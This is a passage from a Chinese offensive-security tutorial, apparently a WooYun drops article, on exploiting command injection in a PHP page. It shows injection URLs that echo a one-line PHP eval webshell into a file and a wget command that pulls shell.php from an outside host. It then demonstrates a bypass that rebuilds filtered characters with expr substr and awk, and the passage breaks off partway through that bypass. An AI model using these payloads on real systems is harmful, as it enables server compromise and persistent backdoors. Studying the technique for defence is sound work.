 ```
http://localhost/test.php?id=aaaa;echo <?php eval($_REQUEST[v]);?> >zzz.php

```

那么得到的文件名是 zzz_php,这里也不能用\ 来转义.

![2014030416170030636.png](http://drops.javaweb.org/uploads/images/3364442e80733ea37afe06429a49ef99862ebb65.jpg)

小伙伴们可能会说,妈蛋,不是还能下载文件吗. 代码这样写

```
http://localhost/test.php?id=aaaa;wget www.ccav.com/shell.php

```

那么得到的结果是:

```
Not current directory

```

因为包含了.(点)跟路径符号.

0x02 绕过方式
---------

* * *

到这得考虑如何绕过过滤分别使用两个方法得shell.

```
1如何echo 写shell 
2.如何通过下载得shell 

```

### 第一种方法：

如何echo 写shell,以写一句话PHP木马为例,主要解决的是.(点)的问题,$(美元符号),以及>(管道符号)和括号.我这里使用的方法是”借花献佛”

echo完整的语句如下:

```
echo <?php eval($_REQUEST[v]);?> >test.php

```

既然不能生成那就 ”借”,直接借现有文件中的字符.可以从变量中借或者从现有的文件中借.用到的方法是linux Shell expr的方法.

如下图,打印了test.php文件中第一行的 6个字符，要做的就是把需要的字符都从文件中借过来。(示例的test.php 就是漏洞文件本身)

![2014030416213050474.png](http://drops.javaweb.org/uploads/images/e0af11553972e45f0a26fc487c8ecfa073eb5278.jpg)

接下来就是体力活了,要把一句话木马中所有被过滤的字符都依次借过来. 要注意的是,读取字符的间隔貌似不能包含空格,否则expr会判断列数错误.

```
root@Google:/var/www# echo `expr substr $(awk NR==20 test.php) 5 1`
 "     
root@Google:/var/www# echo `expr substr $(awk NR==20 test.php) 1 1`
 $
 root@Google:/var/www# echo `expr substr $(awk NR==1 test.php) 1 1`
 <
 root@Google:/var/www# echo `expr substr $(awk NR==1 test.php) 6 1`
>
root@Google:/var/www# expr substr $(awk NR==11 test.php) 35 1     
)     
root@Google:/var/www# expr substr $(awk NR==11 test.php) 33 1     
(
 root@Google:/var/www# expr substr $(awk NR==20 test.php) 7 1     
;
 root@Google:/var/www# expr substr $(awk NR==17 test.php) 2 1     
```